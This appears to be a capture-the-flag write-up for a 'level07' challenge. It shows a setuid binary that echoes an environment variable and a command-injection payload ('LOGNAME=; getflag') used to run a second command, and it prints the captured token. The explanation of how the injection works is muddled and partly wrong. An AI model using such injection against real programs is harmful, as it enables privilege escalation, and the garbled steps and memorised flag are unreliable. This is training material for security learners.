 # level07

1. Files found in `~/` :

    ```bash
    ./level07
    ```

2. Binary analysis

    ```bash
    strings level07
    ```

    One line catches our attention :

    ```bash
    /bin/echo %s 
    ```

    The script therefore displays a variable named `level07`. We will grep all environment variables named `level07`, and two are retained :

    ```bash
    USER=level07
    LOGNAME=level07
    ```

3. Exploitation

    Rename `LOGNAME` to escape `echo` and chain `getflag` :

    ```bash
    LOGNAME=; getflag
    ./level07
    ```

    The execution launches `./level07` to execute the expected `echo` command, then `; getflag`.

    ```bash
    echo $LOGNAME; getflag
    ```

4. Token discovered

    The token is : `fiumuikeil55xe9cu4dood66h`
